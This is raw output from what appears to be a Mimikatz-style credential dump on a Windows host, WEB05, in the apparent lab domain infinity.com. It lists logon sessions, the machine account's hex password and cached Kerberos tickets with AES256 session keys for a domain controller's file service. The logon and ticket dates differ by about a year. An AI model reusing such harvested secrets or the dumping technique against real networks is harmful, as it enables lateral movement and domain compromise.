 	Group 0 - Ticket Granting Service

	Group 1 - Client Ticket ?

	Group 2 - Ticket Granting Ticket

Authentication Id : 0 ; 41044 (00000000:0000a054)
Session           : Interactive from 1
User Name         : UMFD-1
Domain            : Font Driver Host
Logon Server      : (null)
Logon Time        : 3/18/2024 9:55:38 AM
SID               : S-1-5-96-0-1

	 * Username : WEB05$
	 * Domain   : infinity.com
	 * Password : 25 69 4c 53 d1 2a 72 2c d6 79 1b 72 68 5b 29 f4 5f 2a 37 95 c8 3d a3 1f 7b 5c 69 b7 d1 a1 4d 2b 58 c7 08 e0 0b dd 91 93 09 7d e6 75 3f 07 03 35 07 a3 e2 df eb 54 07 44 c8 74 44 97 54 71 87 91 b5 25 e4 fc bf 4e 2f 0e fe 41 8f 8d 34 97 ed 59 98 a4 4e c3 87 1e 49 4c b3 dd 6c e4 7b eb 0b 15 3b 03 e6 99 2b 4d 3b 46 2e b8 17 4d cb 8a bb 9a 36 53 e3 16 b5 5d 32 fa 72 0c 13 e7 d6 19 d4 11 8f 2f 33 28 79 b6 81 a9 94 9d 02 f8 82 e6 38 85 c3 64 2f b9 57 ff be 0a 96 87 0f d2 79 ec 10 ba 23 0a 98 f9 d5 a9 04 33 83 ed 84 55 3b b5 a2 18 12 06 11 b0 44 84 6e 23 87 57 51 ed 13 b0 02 f7 36 e8 19 43 aa 8f 70 7c 17 77 a0 1c 61 f3 fa 5d 79 0a 7d 9f 76 89 c6 3d db dd b8 ef 2c a4 0a 5d 6b ac a6 39 c1 f8 c8 fb 32 51 67 22 3a 5d b0 6b 

	Group 0 - Ticket Granting Service

	Group 1 - Client Ticket ?

	Group 2 - Ticket Granting Ticket

Authentication Id : 0 ; 999 (00000000:000003e7)
Session           : UndefinedLogonType from 0
User Name         : WEB05$
Domain            : INFINITY
Logon Server      : (null)
Logon Time        : 3/18/2024 9:55:38 AM
SID               : S-1-5-18

	 * Username : web05$
	 * Domain   : INFINITY.COM
	 * Password : 25 69 4c 53 d1 2a 72 2c d6 79 1b 72 68 5b 29 f4 5f 2a 37 95 c8 3d a3 1f 7b 5c 69 b7 d1 a1 4d 2b 58 c7 08 e0 0b dd 91 93 09 7d e6 75 3f 07 03 35 07 a3 e2 df eb 54 07 44 c8 74 44 97 54 71 87 91 b5 25 e4 fc bf 4e 2f 0e fe 41 8f 8d 34 97 ed 59 98 a4 4e c3 87 1e 49 4c b3 dd 6c e4 7b eb 0b 15 3b 03 e6 99 2b 4d 3b 46 2e b8 17 4d cb 8a bb 9a 36 53 e3 16 b5 5d 32 fa 72 0c 13 e7 d6 19 d4 11 8f 2f 33 28 79 b6 81 a9 94 9d 02 f8 82 e6 38 85 c3 64 2f b9 57 ff be 0a 96 87 0f d2 79 ec 10 ba 23 0a 98 f9 d5 a9 04 33 83 ed 84 55 3b b5 a2 18 12 06 11 b0 44 84 6e 23 87 57 51 ed 13 b0 02 f7 36 e8 19 43 aa 8f 70 7c 17 77 a0 1c 61 f3 fa 5d 79 0a 7d 9f 76 89 c6 3d db dd b8 ef 2c a4 0a 5d 6b ac a6 39 c1 f8 c8 fb 32 51 67 22 3a 5d b0 6b 

	Group 0 - Ticket Granting Service
	 [00000000]
	   Start/End/MaxRenew: 3/3/2025 6:23:58 PM ; 3/4/2025 2:36:20 AM ; 3/10/2025 4:36:20 PM
	   Service Name (02) : cifs ; dc03.infinity.com ; infinity.com ; @ INFINITY.COM
	   Target Name  (02) : cifs ; dc03.infinity.com ; infinity.com ; @ INFINITY.COM
	   Client Name  (01) : WEB05$ ; @ INFINITY.COM ( infinity.com )
	   Flags 40a50000    : name_canonicalize ; ok_as_delegate ; pre_authent ; renewable ; forwardable ; 
	   Session Key       : 0x00000012 - aes256_hmac      
	     558db28440866994a8c622ff4906ece9bfc21fc70c4e34c386affd197b050260
	   Ticket            : 0x00000012 - aes256_hmac       ; kvno = 9	[...]
	 [00000001]
	   Start/End/MaxRenew: 3/3/2025 6:23:58 PM ; 3/4/2025 2:36:20 AM ; 3/10/2025 4:36:20 PM
	   Service Name (01) : WEB05$ ; @ INFINITY.COM
	   Target Name  (01) : WEB05$ ; @ INFINITY.COM
	   Client Name  (01) : WEB05$ ; @ INFINITY.COM
	   Flags 40a50000    : name_canonicalize ; ok_as_delegate ; pre_authent ; renewable ; forwardable ; 
	   Session Key       : 0x00000012 - aes256_hmac      
	     d4e2bf971fbfd8438f21ec2db9614a62d30cfc9c67787e3dd1df69f1dd196d6a